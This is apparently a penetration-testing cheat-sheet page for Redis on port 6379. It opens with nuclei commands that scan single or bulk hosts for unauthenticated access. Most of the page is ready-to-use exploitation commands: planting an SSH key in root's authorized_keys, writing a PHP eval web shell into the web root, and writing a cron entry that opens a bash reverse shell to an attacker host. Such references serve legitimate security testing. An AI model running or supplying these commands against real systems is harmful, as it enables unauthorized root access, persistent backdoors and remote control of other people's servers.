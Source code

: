 # 6379 - Redis

## Potential Risks

### Unauthorized Access

```bash
# https://github.com/yuukisec/iPoCs
# RHOST=remoteHost; RPORT=6379
nuclei -t ~/ipocs -id redis-unauth -u $RHOST:$RPORT

# Bulk testing
# RHOST_LIST=hosts.txt
nuclei -t ~/ipocs -id redis-unauth -l $RHOST_LIST -c 100 -bs 100
```

## Exploitation

### Write File

```bash
# Method 1: Write SSH public key
# RHOST=remoteHost; RPORT=
# Step 1: Generates an SSH key pair
if [ -f /tmp/.ssh_key ]; then; rm /tmp/.ssh_key /tmp/.ssh_key.pub; fi
ssh-keygen -t rsa -b 2048 -N "" -f /tmp/.ssh_key
(echo -e "\n\n"; awk '{print $1,$2;}' /tmp/.ssh_key.pub; echo -e "\n\n") > /tmp/.ssh_key_redis.pub
# Step 2: Upload SSH public key
cat /tmp/.ssh_key_redis.pub | redis-cli -h $RHOST -p $RPORT -x set santa
redis-cli -h $RHOST -p $RPORT
> CONFIG SET DIR /root/.ssh/ # The alternative is `CONFIG SET DIR /etc/ssh/`
> CONFIG SET DBFILENAME "authorized_keys"
> SAVE
# Step 3: Connect SSH using the private key
ssh -i /tmp/.ssh_key root@localhost

# Method 2: Write WebShell
redis-cli -h $RHOST -p $RPORT
> CONFIG SET DIR /var/www/html
> CONFIG SET DBFILENAME santa.php
> SET santa "\n\n\n\n<?php @eval($_REQUEST['santa']);?>\n\n\n\n"
> SAVE

# Method 3: Write Linux crontab
redis-cli -h $RHOST -p $RPORT
> CONFIG SET DIR /etc/cron.d
> CONFIG SET DBFILENAME santa_revs
> SET santa "\n\n\n\n* * * * * root bash -i >& /dev/tcp/$EHOST/$EPORT 0>&1\n\n\n\n"
> SAVE
```

For more information, please refer to page [OOB > Reverse Shell > crontab (unix-only)](../../others-high/oob-payload.md#reverse-shell).

### GUI Tools

* [Another Redis Desktop Manager](https://goanother.com/cn/)
* [https://github.com/SafeGroceryStore/MDUT](https://github.com/SafeGroceryStore/MDUT)

